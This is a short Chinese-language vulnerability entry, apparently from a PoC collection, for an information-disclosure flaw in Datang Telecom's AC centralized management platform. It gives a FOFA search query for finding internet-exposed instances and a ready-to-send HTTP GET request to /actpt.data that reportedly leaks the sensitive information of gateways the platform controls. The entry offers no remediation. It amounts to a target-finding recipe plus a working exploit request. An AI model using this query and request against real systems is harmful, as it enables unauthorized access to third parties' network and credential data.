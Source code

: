 ## 大唐电信AC集中管理平台敏感信息泄漏漏洞

大唐电信科技股份有限公司是电信科学技术研究院（大唐电信科技产业集团）控股的的高科技企业，大唐电信已形成集成电路设计、软件与应用、终端设计、移动互联网四大产业板块。大唐电信AC集中管理平台存在敏感信息泄漏漏洞。攻击者利用此漏洞可获取大唐电信AC终端管理平台控制的网关敏感信息。

## fofa

```
app="大唐电信AC集中管理平台" && fid="gmqJFLGz7L/7TdQxUJFBXQ=="
```

## poc

```
GET /actpt.data HTTP/1.1
Host: xx.xx.xx.xx
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407072013575.png)